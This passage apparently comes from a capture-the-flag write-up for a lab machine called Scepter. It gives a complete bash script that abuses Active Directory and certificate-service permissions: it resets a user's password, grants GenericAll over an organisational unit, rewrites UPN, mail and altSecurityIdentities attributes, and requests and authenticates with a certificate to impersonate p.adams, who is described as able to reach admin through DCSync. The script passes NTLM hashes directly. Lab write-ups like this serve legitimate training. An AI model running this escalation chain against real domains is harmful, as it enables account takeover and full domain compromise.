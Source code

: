 `p.adams` is very interesting. It can gives us admin with DCSync.
![scepter7](/assets/img/scepter7.png)

Pretty similar solution script, the only difference is we are also updating `altSecurityIdentities`:
```bash
#!/bin/bash

set -eux

ntpx() {
  faketime "$(ntpdate -q $(cat ip.txt) | cut -d ' ' -f 1,2)" "$@"
}

bloodyAD -u d.baker -p :18b5fb0d99e7a475316213c15b6f22ce --host dc01.scepter.htb -d scepter.htb set password a.carter 'asdf1234$Ba'

bloodyAD -u a.carter -p 'asdf1234$Ba' --host dc01.scepter.htb -d scepter.htb add genericAll 'OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB' a.carter

ntpx certipy account update -username a.carter@scepter.htb -password 'asdf1234$Ba' -user d.baker -upn p.adams -dc-ip $(cat ip.txt)

bloodyAD -u a.carter -p 'asdf1234$Ba' --host dc01.scepter.htb -d scepter.htb set object d.baker mail -v p.adams@scepter.htb

export KRB5CCNAME=./h.brown.ccache
ntpx bloodyAD -k --host dc01.scepter.htb -d scepter.htb set object p.adams altSecurityIdentities -v 'X509:<RFC822>p.adams@scepter.htb'
export KRB5CCNAME=

certipy req -username d.baker@scepter.htb -hashes aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce -ca scepter-DC01-CA -template StaffAccessCertificate -dc-ip $(cat ip.txt)

certipy account update -username a.carter@scepter.htb -password 'asdf1234$Ba' -user d.baker -upn d.baker@scepter.htb -dc-ip $(cat ip.txt)

ntpx certipy auth -pfx d.baker.pfx -domain scepter.htb -username p.adams -dc-ip $(cat ip.txt)
```
